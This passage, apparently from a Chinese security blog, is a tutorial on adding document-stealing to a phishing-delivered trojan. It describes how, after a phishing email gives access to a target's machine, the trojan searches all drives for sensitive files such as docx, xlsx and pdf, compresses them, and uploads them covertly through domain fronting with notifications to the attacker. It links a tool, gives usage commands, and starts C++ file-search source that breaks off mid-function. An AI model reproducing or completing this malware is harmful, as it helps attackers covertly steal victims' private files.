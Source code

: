 ```yaml
---
title: 炮灰马之文件窃取功能
date: 2020-11-23 11:51:24
description: 极客兔兔的小站，致力于分享一些技术教程和有趣的技术实践。




---
```


### 前言

通常情况下,当我们前期通过发信拿到目标机器权限之后的第一件事就是想办法快速维权和尽可能多的搜集敏感信息，本文针对邮件马添加针对特定类型的敏感文件搜索功能和上传功能，尽量用最快的时间,最隐蔽稳定的方式,做最多的事情。

### 一、单功能版

C++ GetLogicalDriveStringsA枚举磁盘列表、遍历指定盘搜索特定类型文件包括CS反射DLL版本。
https://github.com/c1y2m3/FileSearch
用法：

```
System Drive are:C:\D:\
Command:FileSearch.exe Drive Keyword
Example:FileSearch.exe C:\ docx
```



![_20201118180436.png](https://cdn.nlark.com/yuque/0/2020/png/262397/1605693913944-ab389ee0-d482-4fd3-b86e-27dd6a926894.png#align=left&display=inline&height=522&margin=%5Bobject%20Object%5D&name=_20201118180436.png&originHeight=522&originWidth=1057&size=34533&status=done&style=none&width=1057)

### 二、改进版

在原项目基础上遍历全盘指定文件后缀，如docx,xlsx,pdf等敏感文件压缩打包并通过域前置上传到服务器，使用Server酱通知，提供后端进行展示下载，配合邮件马释放使用。

### 窃取文件

```
void FindFile(char* pfilename, char* pfilter, char* fname,char* tempdir)
{

	WIN32_FIND_DATA findfiledate;
	HANDLE hfind;
	char filename[1000];
	char lpFileName[1000];
	char _lpFileName[1000];


	char source[1000];
	char target[1000];

	int i;
	for (i = 0; *(pfilename + i) != '\0'; i++)
		filename[i] = *(pfilename + i);
	filename[i] = '\0';
	//如果最后一字符不是'\'
	if (filename[strlen(filename) - 1] != '\\')
		strcat(filename, "\\"); //添加'\'
	strcpy(lpFileName, filename);
	strcat(lpFileName, pfilter);
	hfind = FindFirstFile(lpFileName, &findfiledate);
	if (hfind == INVALID_HANDLE_VALUE)
		return;
	do
```